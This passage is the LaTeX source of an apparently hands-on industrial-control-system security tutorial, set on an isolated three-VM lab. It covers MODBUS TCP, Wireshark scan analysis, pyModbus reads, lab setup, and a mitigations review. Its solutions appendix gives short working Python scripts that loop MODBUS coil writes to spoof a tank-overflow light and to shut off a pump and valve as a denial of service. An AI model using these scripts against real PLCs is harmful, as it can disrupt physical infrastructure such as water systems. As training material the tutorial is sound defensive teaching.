	
\includegraphics[scale=0.68]{figures/MODBUS1.JPG}
\end{center}
\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{MODBUS TCP/IP}\\
The pertinent parts of the MODBUS over TCP/IP packet are the MODBUS ADU. The Transacation ID is used to identify each query/response pair. The protocol ID should be 0, which identifies the protocol as MODBUS TCP. Length determines the total number of bytes that remain in the frame. Unit identifier determines which modbus ID is being requested (i.e. which machine should respond). The function code determines what action is being requested (i.e. read/write coils/registers). The data section is determined based on the information being requested or supplied. \cite[p.124-127]{KnappLangill}
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Challenge: Wireshark Packet Analaysis}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
Open the "modbus.pcapng" file on the desktop of the Kali machine. Answer the following questions:
	\ben
	\item Identify the machines communicating with "192.168.5.12". Are any of the machines doing anything suspicious?
	\item What is this suspicious machine doing? Explain your reasoning.
	\item How would you mitigate this activity?
	\een
\end{instructionblock}
\end{slide}

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: PyModbus \& IPython}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
\textbf{PyModbus Example:} \\
\textit{client = ModbusTcpClient('127.0.0.1')}\\
\textit{print client.read\_coils(1,1)}\\
\vfill
\noindent
\textbf{NOTE: }PLCs and many other ICS devices are sensitive to scanning. If you perform a scan, ensure that you do NOT use agressive scans. It is reccommended that you utilize a scanning delay. (ex. --scan-delay=1)
\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{PyModbus}\\
A fully implemented Python library for accessing and utilizing MODBUS communication. Full functionality is available for settings up MODBUS servers and accessing client information using easily crafted MODBUS packets. For the purposes of this tutorial we will NOT be utilizing the server functionality. However, this would be a great option for testing other MODBUS devices like our PLC we created for this tutorial.\\
That aside, creating a MODBUS client and communicating with a server is a very simple process: (1) Import the pyModbus library (2) establish the target MODBUS device (3) Send read or write requests to the established target.\\
\textit{HINT:} Checkout the PyModbus webpage for more information and example code:\\ \url{https://pymodbus.readthedocs.io/en/latest/}\\
\textbf{IPython}\\
This wonderful tool is not required for this tutorial, however, it does make experimentation very simple. IPython allows for the python interpreter session to be more useful and interactive. IPython sessions allow the user to submit bash commands with the Python interpreter still open. Further, tab complete is available for commands in python including python module importation. IPython also has a built-in history function for python that easily allows for the repetition of commands. This is very useful in further challenges in this tutorial.\\
The IPython documentation is found here:\\
\url{https://ipython.readthedocs.io/en/stable/}
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Task: Reading Setpoints}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\begin{instructionblock}
		Follow the instructions below as we use pyModbus and IPython to read setpoints in our water system.
		\begin{center}
			
\includegraphics[scale=0.42]{figures/ScadaBR01.JPG}
		\end{center}
	\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{Instructions}\\
\ben
	\item Open IPython by entering the following command to the shell: \textit{ipython}
	\item \textit{from pymodbus.client.sync import ModbusTcpClient as ModClient}
	\item \textit{client = ModClient('192.168.5.12')}
	\item \textit{response = client.read\_coils(0,1)}
	\item Print the status of the valve: \textit{print response.bits[0]}
	\item Print the status of the pump: \textit{print response.bits[1]}
	\item \textit{response = client.read\_input\_registers(0,1)}
	\item Print the status of the tank level: \textit{print response.registers[0]}
\een
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Challenge: Perform an Injection }{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\begin{instructionblock}
		Perform an injection attack that spoofs the newly made 'tank overflow' light. The light should illuminate regardless of the tank level.
	\end{instructionblock}
\end{slide}

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Challenge: Perform a Denial of Service}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\begin{instructionblock}
		Perform a Denial of Service attack on the water tank. Feel free to get creative.
	\end{instructionblock}
\end{slide}

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
%\pagebreak
%\stepcounter{next}
%\stepcounter{prev}
%\begin{slide}{Info: DNP3 Protocol }{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
%\begin{instructionblock}
%	\ben
%		\item this
%		\item that
%		\item thus
%	\een
%\end{instructionblock}
%\end{slide}
%\vfill
%\noindent
%\textbf{This}\\
%information ..
%
%%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
%
%\pagebreak
%\stepcounter{next}
%\stepcounter{prev}
%\begin{slide}{Info: DNP3 Packet Dissection}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
%	\begin{instructionblock}
%		The DNP3 protocol
%	\end{instructionblock}
%\end{slide}
%
%%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
%\pagebreak
%\stepcounter{next}
%\stepcounter{prev}
%\begin{slide}{BONUS Challenge: DNP3 Scanner}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
%	\begin{instructionblock}
%		Use Python to create a script that scans the coils of the PLC using DNP3.
%	\end{instructionblock}
%\end{slide}
%
%%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
%\pagebreak
%\stepcounter{next}
%\stepcounter{prev}
%\begin{slide}{Review: Security Flaws of MODBUS \& DNP3}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
%\begin{instructionblock}
%	\ben
%		\item What are the critical security flaws in the ICS protocols discovered today?
%		\item How do we mitigate the attacks seen today?
%	\een
%\end{instructionblock}
%\end{slide}

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Review: Mitigations}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\begin{instructionblock}
		How can we stop the following attacks we have seen today?
		\ben
			\item Scanning
			\item Denial of Service (DoS)
			\item Injection
		\een
	\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{Bumb-in-the-wire}\\
There are many built-on ("bolt-on") security solutions that can apply IPSec to protocols like MODBUS. The encryption of the MODBUS packet would greatly increase the security posture for any devices communicating on MODBUS (i.e. PLCs). However, these devices are expensive and may not be able to mesh well with field devices. This solution is more appropriate for SCADA to PLC or PLC to PLC communication. \\
\textbf{Network Segmentation}\\
The physical segmentation of the ICS network from the Corporate IT network (air-grapped) is a great improvement. Potentially segementing the ICS network into subnets where communication and access is granted on a need-only basis may reduce the chances of malicious actors gaining access as easily to the ICS network. \\
\textbf{Application Layer Firewall}\\
Applying a white-listing policy using an application firewall is a nice addition. It pairs nicely with all of the aforementioned security implementations. And really, defense-in-depth is the grand,modern solution as it stands now. \\
\textbf{Protocol Revision}\\
Security was not the center (let alone a consideration) at the advent of MODBUS. Without security designed into this protocol, bandaid solutions frankly just don't cut it. This "solution" is not necessarilly a solution because it does not address security in MODBUS. The suggestion that a new standard should be pushed forward that will protect ICS devices and networks may be the only truly effective solution.

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Conclusion: PLC Security}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\begin{instructionblock}
		Today we did the following:
		\ben
		\item Reviewed the importance of ICS Security
		\item Programmed a PLC with Ladder Logic
		\item Analyzed malicious scanning activity in Wireshark
		\item Used pyModbus to leverage the lack of authentication in MODBUS
		\item Discussed possible mitigations \& security strategies
		\een
	\end{instructionblock}
\end{slide}

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Appendix}{\hyperref[slide \theprev]{\textless}}
	\begin{instructionblock}
		\ben
		\item Solutions to challenges
		\item Network Diagram
		\item Setup details
		\item Change log
		\item References
		\een
	\end{instructionblock}
\end{slide}
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\textbf{Solutions to Challenges}\\
\ben
\item \textbf{Challenge: Wireshark Packet Analaysis}
	\ben
		\item Q: Identify the machines communicating with "192.168.5.12". Are any of the machines doing anything suspicious?\\
		\textit{A: Yes, there is a suspicious machine 192.168.5.90 that is communicating with a high volume to 192.168.5.12 (OpenPLC).}
		\item Q: What is this suspicious machine doing? Explain your reasoning.\\
		\textit{A: This machine appears to be performing a scan of the coils on the OpenPLC box. I believe this to be the case because of the sheer number of requests for reading coils made. In fact, that is the only request ever made of OpenPLC by the .90 machine. Further, the sequence of coils requested seems programatic (1,2,3,4,5,6...100,101,etc.). This also seems malicious because it is striking of behavior that I would assume is coming from someone who wants to gain an understanding of where the PLC's setpoints are located.}
		\item Q: How would you mitigate this activity?\\
		\textit{A: Simple. Keep this box off the ICS network. This can be done with a DMZ, more strict firewall rules and better network segmentation.}
	\een
\item \textbf{Challenge: Perform an Injection}\\
Perform an injection attack that spoofs the newly made 'tank overflow' light. The light should illuminate regardless of the tank level.
\textit{Using a python script one can do the following:}
	\begin{lstlisting}
	#!/usr/bin/env python
	from pymodbus.client.sync import ModbusTcpClient
	client = ModbusTcpClient('192.168.5.12')
	while True:
		client.write_coil(2,1) #keep LED 'ON'
	client.close()
	\end{lstlisting}
\item \textbf{Challenge: Perform a Denial of Service (DoS)}\\
Perform a Denial of Service attack on the water tank. Feel free to get creative.
\textit{Using a python script one can do the following:}
\begin{lstlisting}
	#!/usr/bin/env python
	from pymodbus.client.sync import ModbusTcpClient
	client = ModbusTcpClient('192.168.5.12')
	while True:
		client.write_coil(1,0) #turn 'OFF' the pump
		client.write_coil(0,0) #turn 'OFF' the valve
	client.close()
\end{lstlisting}
\een 

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\noindent
\textbf{Network Diagram}\\
The network configuration for this tutorial is fairly simple. Essentially, we have 3 VMs networked on the same subnet. This network is disconnected from the internet. This is essential, since we will be running attacks on vulnerable machines and software. This was implemented by created a "lan segment"  in VMware especially for these 3 VMs where no other machines or devices are connected. \\
\vspace*{3cm}
\begin{center}
	\begin{tikzpicture}
		\node [draw, align=center] (1) at (-3,0) {\textbf{OpenPLC}\\192.168.5.12};
		\node [draw, align=center] (2) at (3,0) {\textbf{ScadaBR}\\192.168.5.9};
		\node [draw, align=center] (3) at (0,0){\textbf{Kali}\\192.168.5.10};	
		\draw [-] (1) -- (3);
		\draw [-] (2) -- (3);
	\end{tikzpicture}
\end{center}

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\noindent
\textbf{Setup details}\\\\
In this tutorial, we used three virtual machines. This section will describe the process used to create the OpenPLC box used. \\
\textbf{OpenPLC}
\ben
\item  Navigate in a web browser to "\url{https://www.ubuntu.com/download/desktop/thank-you?version=18.04.1&architecture=amd64}". This will begin the process of downloading the image file (iso) used in the installation of Ubuntu 18.04 in the next step.
\item (\textbf{OPTIONAL}) Verify the integrity of the downloaded iso file using your choice of hashing algorithm (ex. md5, sha256, etc.). On Windows platforms, the powershell command "Get-FileHash filename -Algorithm hashAlgorithm" may be used to this end.
\item Open up VMWare Workstation and create a "New Virtual Machine...". Select the iso downloaded in the previous steps. Click "Next".\\ 
\includegraphics[width=\textwidth]{figures/Installation01.PNG}
\item Fill in the details of Virtual Machine. This will include name and credentials for the machine. Once prompted, the hardware setting used are as follows: \\
\begin{tabular}[l]{| c | c |}
	\hline
	Number of processors & 2 \\
	\hline
	Number of cores per processor & 1 \\
	\hline
	Memory & 2048 \\
	\hline
	Network type & Network Address Translation (NAT) \\
	\hline
	I/O controller type & LSI Logic (Recommended) \\
	\hline
	Disk type & SCSI (Recommended) \\
	\hline	
	Disk selection & Create a new virtual disk \\
	\hline
	Max disk size & 30GB \\
	\hline
\end{tabular}
\\
\textbf{NOTE:} The network type will be changed later in the setup process.
\item Review the VM configuration and then click "Finish" to build the VM.
\item Power on the VM and follow the on-screen installation instructions.\\ 
\includegraphics[width=\textwidth]{figures/Installation02.PNG}
\item After rebooting, login to the machine using the credentials obtained in previous steps. Update the system by opening a terminal and running the command "\textit{sudo apt-get update}"\\

\includegraphics[width=\textwidth]{figures/Installation03.PNG}
\item Install git with the command "\textit{sudo apt-get install git}"
\item Install OpenPLC with the following commands:
	\ben 
	\item "\textit{git clone https://github.com/thiagoralves/OpenPLC\_v3.git"}
	\item "\textit{cd OpenPLC\_v3}"
	\item "\textit{./install.sh linux}"
	\een
\item Install OpenPLC Editor with the following commands/steps:
	\ben
	\item "\textit{sudo apt-get install python-wxgtk3.0 pyro python-numpy python-nevow python-matplotlib python-lxml python-zeroconf}"
	\item "\textit{sudo apt-get install curl}"
	\item Open Firefox and navigate to \url{https://github.com/thiagoralves/OpenPLC\_Files/blob/master/Software/PLCopen\%20Editor\%20v1.3\%20-\%20Linux.zip?raw=true}
	\item Once the zip file is downloaded, extract it using the "\textit{Archive Manager}".
	\een
\item Change the ip of the machine using the following commands:
\ben
	\item "\textit{nano /etc/network/interfaces}"
	\item Edit the interfaces file so that it looks like this:\\
	
\includegraphics[scale=0.43]{figures/Installation09.PNG}
	\item Restart networking services using "\textit{sudo service networking restart}"
\een
\item Customize the runtime webserver start script: \textit{sudo nano OpenPLC\_v3/start\_openplc.sh}
\item Change the first line of the script to be "\textit{cd /home/openplc/OpenPLC\_v3/webserver/}"
\item Erase the history "\textit{history -c}"
\item Change OpenPLC runtime's autorun setting by doing the following: 
\ben
	\item Start the webserver with this command: \textit{sudo ./OpenPLC\_v3/start\_openplc.sh}
	\item Open the browser and navigate to \url{localhost:8080}.
	\item Login to the OpenPLC runtime software.
	\item Go to settings and check "Start OpenPLC in RUN mode"
\een
\item Now we will need to customize the hardware layer with the following actions:
\ben
	\item Navigate to the 'Hardware' section
	\item Under 'OpenPLC Hardware Layer' use the pulldown to select 'Blank Linux'.
	\item In the coding window, scroll down to the 'updateCustomIn' function. Copy and paste the following code inside of that section: \\
	\begin{lstlisting}
    //run the water behvior logic
	if (bool_output[0][1]!=NULL&&bool_output[0][0]!=NULL&&int_input[0] != NULL)
	{
		bool pump = *bool_output[0][1];
		bool valve = *bool_output[0][0];
		int water_level = *int_input[0];
		//water logic
		if (valve==true && pump==false)
			water_level++;    //water level increases
		else if (valve==false && pump==true)
			water_level--;    //water level decreases
		if (water_level<=0) water_level=0;  //empty condition reached
		if (int_input[0] != NULL) *int_input[0]=water_level;
	}
	\end{lstlisting}
	\item Click on 'Save changes'. Then 'Go to Dashboard'.
	\item Click on 'Start program'.
\een
\item Now we need to create a blank template for ourselves using OpenPLCEditor by following these steps:
\ben
	\item Run \textit{sudo python PLCopen\ Editor/PLCOpenEditor.py}
	\item When the Editor opens, navigate to open $\rightarrow$ new.
	\item Fill in the required information however you please.
	\item Click the large grey colored "+" symbol and add a program. Name it "prog0"
	\item Click the "+" symbol and add a "configuration". Name it "Config0".
	\item Click the "+" symbol and add a "resource". Name it resource0.
	\item Add a "cyclic" task called 'task0'. From here set the interval to "50ms"
	\item Create an "instance". Select 'prog0' as the type. Select 'task0' as the 'task'.
	\item Then go to File $\rightarrow$ Save As. Select where you would like to save with the file picker. Save the file under the name: 'overflow.xml'
\een
\een
\textbf{ScadaBR}\\
This section will describe the process used to create the ScadaBR box used.
\ben
\item Download the ScadaBr ova from \url{https://drive.google.com/file/d/1gEOZmN9_Nt5shXy4iYS1z_EMxB4r0Kzh/view?usp=sharing}
\item Import the OVA by opening 'VMWare Workstation' and navigating to "file $\rightarrow$ open". Select the ova file using the file picker.
\item Follow the on-screen instructions for creating the VM.
\item Change the ip address of the ScadaBR machine using the following commands:
\ben
	\item "\textit{sudo nano /etc/network/interfaces}"
	\item Edit the interfaces file so that it looks like this:\\
	
\includegraphics[scale=.43]{figures/Installation05.PNG}
	\item Restart networking services using "\textit{/etc/init.d/networking restart}"
\een
